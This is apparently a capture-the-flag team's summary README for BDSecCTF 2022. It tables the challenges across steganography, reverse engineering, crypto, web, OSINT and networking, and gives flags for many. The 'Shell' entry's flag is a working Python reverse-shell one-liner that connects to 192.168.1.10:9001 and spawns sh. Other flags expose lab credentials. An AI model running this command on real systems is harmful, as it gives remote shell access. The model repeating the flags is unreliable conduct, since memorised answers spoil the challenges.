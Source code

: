 # BDSecCTF - Write Up

## Context
The goal is to solve cybersecurity tests in various categories. The validation of a challenge is done by retrieving a string called flag which confirms the fact that you have passed the associated test and allows you to obtain the associated points.

## Rules
- Time : 24h (07/20/22 17h - 07/21/22 17h (UTC+2) )
- Max Pers per Team : 5
- Submit Limit : 30 per chall

## Results 
<p align='center'>

| ![Screenshot](Stats.png)            | ![Screenshot](Scoreboard.png)                                                                                                           |
| --------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
</p>

## Challenges

| Chall Name                                                       | Category     | Author     | Points | Completed | Flag |
|------------------------------------------------------------------|:-------------:|:----------:|:--------------:|:------:|:---------------------------------:|
| Sound's Good                                    | Stegano          | pmsiam   | 50     | ✘ | `` |
| Deep Dive Into It !!                                           | Stegano        | pmsiam   | 250     | ✘ | `` |
| PwnRace                                    | PWN        | froghunter   | 200     | ✔ | `` |
| BDSec License Checker 0x1                                    | Reverse        | NomanProdhan   | 50     | ✘ | `BDSEC{l1c3n53_ch3ck3r_0x1_2022}` |
| shashdot                                    | Reverse        | froghunter   | 50     | ✘ | `` |
| Flag Box                                    | Reverse        |  marufmurtuza   | 100     | ✔ | `` |
| Simple Math                                    | Reverse        |  marufmurtuza   | 100     | ✔ | `` |
| Poster                                    | Reverse        |  froghunter   | 100     | ✔ | `` |
| BDSec License Checker 0x03                                    | Reverse        |  NomanProdhan   | 150     | ✘ | `BDSEC{iTs_lIcEnsE_cHeCker_tHrEE_bDsEc}` |
| BDSec License Checker 0x02                                    | Reverse        |  NomanProdhan   | 200     | ✘ | `` |
| Crypto Code                                    | Crypto        | 1xR1FAT   | 25     | ✔ | `BDSEC{cryp70_and_pyth0n_ar3_aw3s0me}` |
| [VIPx01](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/VIPx01)                                    | Crypto        | 1xR1FAT   | 25     | ✔ | `BDSEC{crypt0_ar3_aw3s0m3}` |
| VIPx02                                    | Crypto        | 1xR1FAT   | 25     | ✘ | `` |
| [Fake](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/Fake)                                    | Crypto        | 1xR1FAT   | 50     | ✔ | `BDSEC{do3sn't_b3li3ve_1n_unkn0wn_mail}` |
| [Basically RSA](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/Basically%20RSA)                                    | Crypto        | dyn   | 100     | ✔ | `DSEC{r54_i5_fUn_r16h7?}` |
| Dominoes                                    | Crypto        | dyn   | 50     | ✘ | `BDSEC{n0t_50_e45y_hUh?_433}` |
| Loop Lover                                    | Crypto        | dyn   | 100     | ✘ | `BDSEC{ju57_L00p_m3_4w4y}` |
| Jungle Templating                                    | WEB        |  0xmahi   | 100     | ✔ | `BDSEC{Y3Y_7H1515_7H3_F146}` |
| Awesome Note Keeping                                    | WEB        |  NomanProdhan   | 100     | ✔ | `BDSEC{tHe_n0t3_K33p1n6_4W350M3_N5}` |
| Knight Squad Shop                                    | WEB        |  froghunter   | 100     | ✔ | `` |
| [Find The Cost](https://github.com/Beel0w/BDSecCTF/tree/main/Programming/Find%20the%20Cost)                                    | Programing        | marufmurtuza| 100     | ✔ | `BDSEC{35,47}` |
| Find The Masterpiece                                    | OSINT        | marufmurtuza   | 50     | ✔ | `BDSEC{he’s_a_pirate,2003}` |
| [Find Rejvi](https://github.com/Beel0w/BDSecCTF/tree/main/OSINT/Find%20Rejvi)                                    | OSINT        | NomanProdhan   | 70     | ✔ | `BDSEC{yoU_goT_m3__oS1nT_I5_fUn_r1Gh7}` |
| Find Me Inside | OSINT        | Axif   | 50     | ✔ | `BDSEC{M33m_the_butterfly_goes_up_up_and_away}` |
| [Message of Hufflepuff](https://github.com/Beel0w/BDSecCTF/tree/main/Misc/Message%20of%20Hufflepuff)                                    | Misc        | marufmurtuza   | 50     | ✔ | `BDSEC{Huffm@n_Enc0d1ng_go7_D3COD3D}` |
| Victim & Attacker | Networking        | TareqAhamed   | 25     | ✔ | `BDSEC{192.168.1.13_192.168.1.10}` |
| Which FTP ? | Networking        | marufmurtuza   | 50     | ✔ | `BDSEC{vsFTPd_3.0.3}` |
| FTP Creads | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{ftpadmin_ftpadmin}` |
| Uploaded File | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{/files/.hacker.not}` |
| Log Filer | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{vsftpd.log}` |
| Project Incharge | Networking        | TareqAhamed   | 50     | ✔ | `` |
| Loooon Looong | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{Thu_Jul_14_10:16:59}` |
| Administrator | Networking        | TareqAhamed   | 50     | ✔ | `` |
| Shell | Networking        | TareqAhamed   | 50     | ✔ | <details><summary>`BDSEC{....`</summary>`BDSEC{python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'}`</details> |
| Secret Key | Networking        | TareqAhamed   | 50     | ✔ | `` |
| Database Admin | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{root_root}` |
| HostName | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{ftpadmin}` |
| CodeName | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{xenial}` |
| Server Info | Networking        | TareqAhamed   | 50     | ✔ | `` |
| Service Exploit | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{polkit}` |
| Exploit Exploit Exploit | Networking        |  marufmurtuza   | 50     | ✔ | `` |
| Vulnerable Service | Networking        | TareqAhamed   | 50     | ✔ | `` |
| msg.txt | Networking        | TareqAhamed   | 50     | ✔ | `` |
| Attacker | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{N4N0M473}` |
| Server User's | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{8}` |  

**Total : 46 Challenges ( 3220 Points )**
 
Credits : [Beel0w](https://github.com/Beel0w)  
Last Edited on: 22/07/2022
  
